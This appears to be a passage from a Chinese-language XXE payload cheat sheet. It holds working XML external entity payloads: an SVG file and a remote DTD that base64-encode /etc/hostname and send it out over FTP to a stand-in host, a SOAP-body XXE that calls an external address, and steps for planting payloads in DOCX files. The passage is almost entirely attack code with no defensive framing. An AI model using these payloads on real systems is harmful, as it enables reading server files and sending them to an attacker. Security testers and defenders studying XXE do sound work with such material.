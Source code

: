 **通过SVG光栅化进行OOB**

*xxe.svg*

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">通过SVG光栅化的XXE</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

*xxe.xml*

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

### SOAP中的XXE

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### DOCX文件中的XXE

Open XML文件的格式（在任何.xml文件中注入有效负载）：

- /_rels/.rels
- [Content_Types].xml
- 默认主文档部分
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml

然后更新文件 `zip -u xxe.docx [Content_Types].xml`
